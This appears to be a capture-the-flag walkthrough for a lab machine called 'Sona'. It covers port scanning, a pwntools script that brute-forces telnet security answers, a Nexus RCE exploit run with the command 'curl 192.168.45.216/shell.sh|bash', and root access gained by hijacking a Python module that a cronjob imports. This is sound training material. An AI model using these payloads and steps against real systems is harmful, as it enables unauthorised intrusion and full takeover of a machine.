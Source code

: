 # Sona

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.240.159
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 11:22 +08
Nmap scan report for 192.168.240.159
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
23/tcp   open  telnet
8081/tcp open  blackice-icecap
```

### Telnet Creds --> Nexus RCE

Port 8081 was hosting a vulnerable version of Nexus Repository Manager:

<figure><img src="../../../.gitbook/assets/image (717).png" alt=""><figcaption></figcaption></figure>

This version has RCE exploits, but we need credentials.

```
$ searchsploit nexus 3.21
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticat | java/webapps/49385.py
----------------------------------------------------------- --------------------------------
```

Weak credentials like `admin:admin` or `nexus:nexus` didn't work. In this case, let's check out out Telnet on port 23.&#x20;

```
$ nc -vn 192.168.240.159 23
(UNKNOWN) [192.168.240.159] 23 (telnet) open
====================
NEXUS BACKUP MANAGER
====================
ANSONE  Answer question one
ANSTWO  Answer question two
BACKUP  Perform backup
EXIT   Exit
HELP   Show help
HINT   Show hints
RECOVER Recover admin password
RESTORE Restore backup
```

We can somehow recover the password from this. We can interact with this application a bit:

```
HINT
1.What is your zodiac sign?
2.What is your favorite color?
RECOVER
Please Enter Password
RECOVER <password>
ANSONE
Please Enter Answer
ANSONE <answer>
```

I wasn't sure how to get this, so let's use the ANSONE and ANSTWO options to check our options. I made a list of colours and zodiac signs:

{% embed url="https://github.com/imsky/wordlists/blob/master/adjectives/colors.txt" %}

```
capricorn
aquarius
aries
libra
scorpio
virgo
taurus
pisces
gemini
leo
cancer
sagittarius
```

Afterwards, we can create a Python script to brute force out the answer based on this.&#x20;

```python
from pwn import *

def interact(word):
	r = remote('192.168.240.159', 23)
	for i in range(11):
		r.recvline()
	r.sendline(b'ANSONE')
	r.recvline()
	r.recvline()
	r.sendline(word.encode())
	response = r.recvline()
	if b'Incorrect' in response:
		r.close()
	else:
		log.info("Correct!")
		log.info(f"Password is {word}")
		r.close()
		
def main():
	with open ('colours.txt', 'r') as file:
		for line in file:
			interact(line)

main()
```

This would slowly brute force the first answer, which is `black`:

```
$ python3 brute.py
<TRUNCATED>
[+] Opening connection to 192.168.240.159 on port 23: Done
[*] Correct!
[*] Password is black
[*] Closed connection to 192.168.240.159 port 23
```

Now we can do the same for the zodiac signs and ANSTWO.&#x20;

```
[+] Opening connection to 192.168.240.159 on port 23: Done
[*] Correct!
[*] Password is leo
[*] Closed connection to 192.168.240.159 port 23
```

So the correct answers are 'black' and 'leo'. We can create a wordlist with these words, which is just:

```
black
leo
leoblack
blackleo
```

`blackleo` is the correct password:

```
RECOVER
Please Enter Password
RECOVER <password>
blackleo
3e409e89-514c-4f9f-955e-dfa5c4083518
```

Using this, we can run the exploit with these parameters:

```python
URL='http://192.168.240.159:8081'
CMD='curl 192.168.45.216/shell.sh|bash'
USERNAME='admin'
PASSWORD='3e409e89-514c-4f9f-955e-dfa5c4083518'
```

I had a lot of trouble getting a shell on this machine for some reason. Eventually, I just decided to use `msfconsole` to exploit this.&#x20;

<figure><img src="../../../.gitbook/assets/image (722).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob --> Python Module Hijack

I ran a `linpeas.sh` scan on the machine and found an interesting permission set:

```
[+] Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
<TRUNCATED>
/usr/lib/python3.8
/usr/lib/python3.8/base64.py
```

We can write to `base64.py`, which is the module being used here. I ran `pspy64` as well to see if this file was being executed in anyway.&#x20;

```
2023/07/07 04:19:01 CMD: UID=0    PID=58840  | python3 /home/sona/logcrypt.py 
```

This file was being run every minute:

```
nexus@sona:/etc/cron.d$ cat logcrypt
cat logcrypt
* * * * * root python3 /home/sona/logcrypt.py
```

Within the `/tmp` directory, there was a `log.crypt` file that contained a huge `base64` encoded file:

{% code overflow="wrap" %}
```
nexus@sona:/tmp$ cat log.crypt
cat log.crypt
SnVsICA3IDAzOjI3OjQ1IHNvbmEgVkdBdXRoWzc4OF06IHZtdG9vbHNkOiBVc2VybmFtZSBhbmQgcGFzc3dvcmQgc3VjY2Vzc2Z1bGx5IHZhbGlkYXRlZCBmb3IgJ3Jvb3QnLgpKdWwgIDcgMDM6Mjc6NDYgc29uYSBWR0F1dGhbNzg4XTogbWVzc2FnZSByZXBlYXRlZCAyIHRpbWVzOiBbIHZtdG9vbHNkOiBVc2VybmFtZSBhbmQgcGFzc3dvcmQgc3VjY2Vzc2Z1bGx5IHZhbGlkYXRlZCBmb3IgJ3Jvb3QnLl0KSnVsICA3IDAzOjI3OjUxIHNvbmEgVkdBdXRoWzc4
<TRUNCATED>
```
{% endcode %}

The file was also owned by `root`, meaning that this likely being generated by the `logcrypt` cronjob. I just echoed in `import os;os.system("chmod u+s /bin/bash")` within the `base64.py` file and it worked!

```
nexus@sona:/usr/lib/python3.8$ ls -al /bin/bash
ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

<figure><img src="../../../.gitbook/assets/image (715).png" alt=""><figcaption></figcaption></figure>
